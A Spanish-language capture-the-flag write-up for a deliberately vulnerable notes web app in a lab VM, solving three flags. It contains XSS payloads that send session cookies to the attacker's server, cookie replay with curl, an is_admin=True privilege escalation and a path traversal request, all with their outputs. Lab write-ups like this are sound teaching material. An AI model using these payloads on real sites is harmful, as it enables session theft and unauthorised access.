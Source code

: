 # Hackaton UdG - Reto 3

## Index

- [Flag 1](#flag-1)

- [Flag 2](#flag-2)

- [Flag 3](#flag-3)

### Flag 1 

Creamos un usuario, levantamos un servidor en python con `python -m http.server 6969` y dentro de los upload, en el apartado de texto plano alguno de los siguientes **XSS**

```html
<!-- esta primera puede buggear la web, reinciadno la VM se arreglar -->
<img src=x onerror="document.location='http://10.0.2.15:6969/cookie?data='+document.cookie;">
<!-- segunda opción -->
<img src=x onerror="fetch('http://10.0.2.15:6969/cookie?data='+document.cookie)">
```

en nuestro servidor de **Python** vemos esta línea

```shell
10.0.2.12 - - [17/Mar/2025 23:01:59] "GET /cookie?data=NOTESAPP=29260242|asmith||author HTTP/1.1" 404 -

```
y con la cookie ya podemos lanzar un `curl` como la usuaria *Alice Smith* y ver que tiene en su blog

```shell
                                                                            
curl -b "NOTESAPP=29260242|asmith||author" http://10.0.2.12/notesapp/

<!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01 Transitional//EN">
<!-- Copyright 2017 Google Inc. -->
<html>
<head>
<title>Notes: Home</title>
<style>
...
...
  <tr>
    <td></td>
    <td>
      Private&nbsp;note&nbsp;
    </td>
    <td>
      <a class='button' id='show' onclick='_showHide("show", "hide")' href='#'>Show &#9658;</a>
      <span id='hide' style='display: none;'>
      <a class='button' onclick='_showHide("show", "hide")' href='#'>Hide &#9668;</a> &nbsp;
      <span id='private_note'>HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}</span></span>
    </td>
  </tr>
  <tr><td colspan='3'><hr></td></tr>

  <tr><td colspan='3'><b>Most recent notes:</b></td></tr>

...

</html>
```

**Flag 1:** `HACK{jckauGfFL5Xl2ovCTfR7sAaWAgAkHZx4SnC1n2Q6fvo}`


### Flag 2 

Cuando registramos a un usuario en la URL aparece `&is_author=True`, aprovechando esta vulnerabilidad podemos modificar el path añadiendo `is_admin=True` como vemos en el ejemplo siguiente:

```python
http://10.0.2.12/notesapp/saveprofile?action=new&uid=pepito&pw=12345&is_admin=True
```
y con esto conseguimos un usuario con poderes de administrador, y como nos dicen que un administrador puede editar otros, pues tan sencillo como ir a editar el usuario `administrator` y en la `Private Note` vemos la flag.


**Flag 2:** `HACK{k9lb8YI00Be2t7eAm4zI7lDr-B8ePCWspRuDAF9ccWQ}`


### Flag 3

Primero, subimos una imagen desde el apartado de `upload`, este nos mostratrá un poco la estructura de los paths `/noteasapp/<TU_USER>/<NOMBRE_IMG>.jpg`. Encendemos [Caido](https://caido.io/), y luego vamos a la barra de búsqueda, ese path y nos dará la imagen que hemos subido, reafirmando una vulnerabilidad de `path traversal`.

Volvemos a Caido, en el apartado de `HTTP history` pillamos la request que se hizo al comprobar la imagen, click derecho en ella y nso la llevamos al apartado de `Replay`, y hay una límea que hay que modificar `Accept: image/avif,image/webp,*/*` y cambiar por `Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5`, esto nos permitirá ver otros formatos de archivo que no solo sea de imagen, luego realizamos dos retrocesos de directorio y apuntamos al archivo que contiene la flag, llamado `secret.txt`

**Request**
```python
GET /notesapp/pepito/../../secret.txt HTTP/1.1
Host: 10.0.2.12
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.0.2.12/notesapp/
Connection: keep-alive
Cookie: NOTESAPP=111686670|pepito|admin|
Pragma: no-cache
Cache-Control: no-cache
```
**Response**
```python
HTTP/1.1 200 OK
Server: nginx/1.24.0 (Ubuntu)
Date: Wed, 19 Mar 2025 14:22:59 GMT
Content-Type: text/plain
Connection: keep-alive
Cache-control: public, max-age=7200
X-XSS-Protection: 0
Content-Length: 49

HACK{nStelXA71NsqQtNO_tzMxtTAESJvdzU5GwrST2kGhWc}
```
y observamos que la respuesta nos devolvió en texto plano la _flag_.

**Flag 3:** `HACK{nStelXA71NsqQtNO_tzMxtTAESJvdzU5GwrST2kGhWc}`
